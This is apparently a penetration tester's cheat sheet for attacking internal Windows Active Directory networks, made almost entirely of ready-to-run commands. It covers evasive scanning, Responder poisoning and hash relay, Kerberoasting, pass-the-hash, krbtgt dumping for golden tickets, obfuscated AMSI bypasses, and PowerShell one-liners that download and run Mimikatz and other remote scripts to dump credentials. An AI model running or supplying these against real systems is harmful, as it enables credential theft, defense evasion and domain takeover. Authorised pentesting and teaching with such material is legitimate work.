

Internal Pentest
Scan
Host && Port Scanning
-nflag to decrease time avoiding DNS resoltion.-ffragment packets as FW evasion, if no FW/IDS, remove it.- Also check FW evasion
# Ping discovery, Top 20, fragment packets, no DNS resolution
sudo nmap -v --top-ports 20 X.X.X.0/24 -f -n --open -oA
# Ping discovery, Top 200, fragment packets, no DNS resolution, service version
sudo nmap -v --top-ports 200 X.X.X.0/24 -f -n -sV --open -oA
# Top 1000, fragment packets, no DNS resolution, service version, all alive (no ping)
sudo nmap -v --top-ports 1000 X.X.X.0/24 -f -n -sV -Pn --open -oA
Web detection
# httpx
cat ip.txt | httpx -silent -random-agent -status-code -timeout 15 -title -web-server -tech-detect -o httpx.txt
cat ip.txt | httpx -silent -ports <UNCOMMON.PORTS> -random-agent -status-code -timeout 15 -title -web-server -tech-detect -o httpx_uncommon.txt
Enum
Check AD section too
hint style="info" Must-read:
- wadcoms.github.io
- adsecurity.org
- casvancooten AD cheatsheet
- zer1t0 Attack AD
- integration-IT AD cheatsheet
endhint
AD no credentials
# Detect SMB on network
responder-RunFinger -i X.X.X.0/24
# Find DC
nslookup -q=srv _ldap._tcp.dc._msdcs.<domain.name>
nslookup -type=srv _ldap._tcp.<domain.name> | grep ldap | cut -d ' ' -f 6 | sed 's/\.$//g'
# Enumerate DC
ldapsearch -h <DC.IP> -x -s base namingcontexts
# Check for null session, if got users go for ASREPRoast with GetNPUsers
ldapsearch -h <DC.IP> -x -b "DC=XX,DC=XX"
# Get hashes with no krb preauth
GetNPUsers.py [Domain Name]/ -dc-ip [Domain Controller IP address] -request
GetNPUsers.py 'DC.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.10
# Get domain name
crackmapexec smb 10.10.10.10
smbmap -H 10.10.10.10 -u '' -p ''
# Get Users List
GetADUsers.py DC.local/ -dc-ip 10.10.10.10 -debug
# Get Users from ldap
windapsearch -U — full — dc-ip 10.10.10.10
# Get base domain
ldapsearch -x -h 10.10.10.175 -s base namingcontexts
# Get more info from DC
ldapsearch -x -h 10.10.10.10 -b ‘DC=DCNAME,DC=LOCAL’
AD with credentials
- Enum AD AIO
# https://github.com/CasperGN/ActiveDirectoryEnumeration
python3 -m ade --dc <domain.name> -u <user@domain.name> --help
# https://github.com/adrecon/ADRecon from Windows on Domain
- windapsearch
# https://github.com/ropnop/go-windapsearch
windapsearch -d <domain>.<name> -u <user> -p <password> --help
- ldap
# Domain users
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(&(objectClass=user)(objectCategory=person))" name sAMAccountName userPrincipalName memberOf primaryGroupID adminCount userAccountControl description servicePrincipalName objectSid pwdLastSet lastLogon -E pr=1000/noprompt | tee domain_users.txt
# Domain computers
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(objectClass=computer)" name dNSHostname memberOf operatingSystem operatingSystemVersion lastLogonTimestamp servicePrincipalName description userAccountControl | tee domain_computers.txt
# Domain groups
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(objectClass=group)" name sAMAccountName memberOf member description objectSid | tee domain_groups.txt
- rpcclient
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c dsr_enumtrustdom
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomains
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomusers
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomgroups
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c getdompwinfo
- cme
# Run commands
# PS
cme smb <IP> -u <USER> -p '<PASS>' -X 'Get-Host'
# CMD
cme smb <IP> -u <USER> -p '<PASS>' -x whoami
# PTH
cme smb <IP> -u <USER> -H <NTHASH> -x whoami
# Other methods
cme smb <IP> -u <USER> -p '<PASS>' --exec-method {mmcexec,smbexec,atexec,wmiexec}
# Dumps
# SAM
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --sam
# LSASS
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --lsa
# Sessions
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --sessions
# Logged users
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --loggedon-users
# Disks
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --disks
# Users
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --users #Enumerate users
# Groups
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --groups
# Local groups
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --local-groups
# Password policy
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --pass-pol
Attacks
LLMNR & NBT-NS Poisoning (Responder)
- Find a privileged user creds to reuse in other host
- Set to
OffSMB and HTTP in/usr/share/responder/Responder.conf
responder -I ppp0 -A # Only listen
responder -I ppp0 -rv exec bash # Poison
- MultiRealy reuses hashes captured in specific host while responder is running
MultiRelay.py -t X.X.X.X -u ALL
Kerberos
# Kerberoasting (hashcat 13100)
GetUserSPNs.py -request -save -dc-ip <IP> domain/user # hashcat 13100
# BF
kerbrute.py -d <DC.LOCAL> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
# ASREPRoast (hashcat 18200)
GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
# PTH/PTK
# Request ticket
getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
getTGT.py <domain_name>/<user_name>:[password]
# Set ticket
export KRB5CCNAME=<TGT_ccache_file>
# Use it
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
psexec.py -hashes 'hash' -dc-ip 10.10.10.10 username@10.10.10.10
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
Dumps
# User hash
secretsdump.py '<DC.NAME>/<User>@<DC.IP>' -just-dc-user user1
# krbtgt hash dump -> Golden Ticket
secretsdump.py '<DC.NAME>/<User>@<DC.IP>' -just-dc-user krbtgt
AMSI Bypass
# Basic
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
# Obfuscation
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
# Other bypass
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
Common Exploits
- ZeroLogon
- EternalBlue: use auxiliary/scanner/smb/smb_ms17_010
- PrivExchange
- SMBGhost and SMBleed
PrivEsc
Local Privilege Escalation
# Juicy Potato - Abuse SeImpersonate or SeAssignPrimaryToken Privileges for System Impersonation
# Works only until Windows Server 2016 and Windows 10 until patch 1803
https://github.com/ohpe/juicy-potato
https://github.com/TsukiCTF/Lovely-Potato
# PrintSpoofer Exploit the PrinterBug for System Impersonation
# Works for Windows Server 2019 and Windows 10
https://github.com/itm4n/PrintSpoofer
# RoguePotato from Service Account to System
# Works for Windows Server 2019 and Windows 10
https://github.com/antonioCoco/RoguePotato
# Abusing Token Privileges
# https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/
# SMBGhost CVE-2020–0796
https://github.com/danigargu/CVE-2020-0796
# CVE-2021–36934 (HiveNightmare/SeriousSAM)
https://github.com/cube0x0/CVE-2021-36934
Extra
Oneliners
# Invoke-BypassUAC and start PowerShell prompt as Administrator [Or replace to run any other command]
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"
# Invoke-Mimikatz: Dump credentials from memory
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
# Import Mimikatz Module to run further commands
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
# Invoke-MassMimikatz: Use to dump creds on remote host [replace $env:computername with target server name(s)]
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"
# PowerUp: Privilege escalation checks
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
# Invoke-Inveigh and log output to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Scripts/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y –Proxy Y -LogOutput Y -FileOutput Y"
# Invoke-Kerberoast and provide Hashcat compatible hashes
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"
# Invoke-ShareFinder and print output to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"
# Import PowerView Module to run further commands
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
# Invoke-Bloodhound
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
# Find GPP Passwords in SYSVOL
findstr /S cpassword $env:logonserver\sysvol*.xml findstr /S cpassword %logonserver%\sysvol*.xml (cmd.exe)
# Run Powershell prompt as a different user, without loading profile to the machine [replace DOMAIN and USER]
runas /user:DOMAIN\USER /noprofile powershell.exe
# Insert reg key to enable Wdigest on newer versions of Windows (restart needed)
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1
Native commands
# User Domain
$env:USERDNSDOMAIN
(Get-ADDomain).DNSRoot
# User Domain info
Get-ADUser Anakin
# Computer Domain
(Get-WmiObject Win32_ComputerSystem).Domain
# DNS, NetBIOSName, DomainSID
Get-ADDomain | select DNSRoot,NetBIOSName,DomainSID
# Trusted domains
nltest /domain_trusts
# Forest info
Get-ADForest
# Interesting users
Get-ADUser -Filter * | select SamAccountName
# Computer accounts
Get-ADObject -LDAPFilter "objectClass=User" -Properties SamAccountName | select SamAccountName
# Trust accounts
Get-ADUser -LDAPFilter "(SamAccountName=*$)" | select SamAccountName
# Groups
Get-ADGroup -Filter * | select SamAccountName
# Interesting groups
Get-ADGroup "Domain Admins" -Properties members,memberof
# Get DC names
nltest /dclist:<domain.name>
# Get all users in the current domain
Get-NetUser | select -ExpandProperty cn
# Get all computers in the current domain
Get-NetComputer
# Get all domains in current forest
Get-NetForestDomain
# Get domain/forest trusts
Get-NetDomainTrust
Get-NetForestTrust
# Get information for the DA group
Get-NetGroup -GroupName "Domain Admins"
# Find members of the DA group
Get-NetGroupMember -GroupName "Domain Admins" | select -ExpandProperty membername
# Find interesting shares in the domain, ignore default shares
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
# Get OUs for current domain
Get-NetOU -FullData
# Get computers in an OU
# %{} is a looping statement
Get-NetOU -OUName StudentMachines | %{Get-NetComputer -ADSPath $_}
# Get GPOs applied to a specific OU
Get-NetOU *student* | select gplink
Get-NetGPO -Name "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}"
# Get Restricted Groups set via GPOs, look for interesting group memberships forced via domain
Get-NetGPOGroup
# Get incoming ACL for a specific object
Get-ObjectACL -SamAccountName "Domain Admins" -ResolveGUIDs | Select IdentityReference,ActiveDirectoryRights
# Find interesting ACLs for the entire domain, show in a readable (left-to-right) format
Find-InterestingDomainAcl | select identityreferencename,activedirectoryrights,acetype,objectdn | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"} | ft
# Get interesting outgoing ACLs for a specific user or group
# ?{} is a filter statement
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReference -match "Domain Admins"} | select ObjectDN,ActiveDirectoryRights
# Get Applocker Policy
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
# Get computers running LAPS, along with their passwords if we're allowed to read those
Get-LAPSComputers
# Get groups allowed to read LAPS passwords
Find-LAPSDelegatedGroups
AV Bypasses
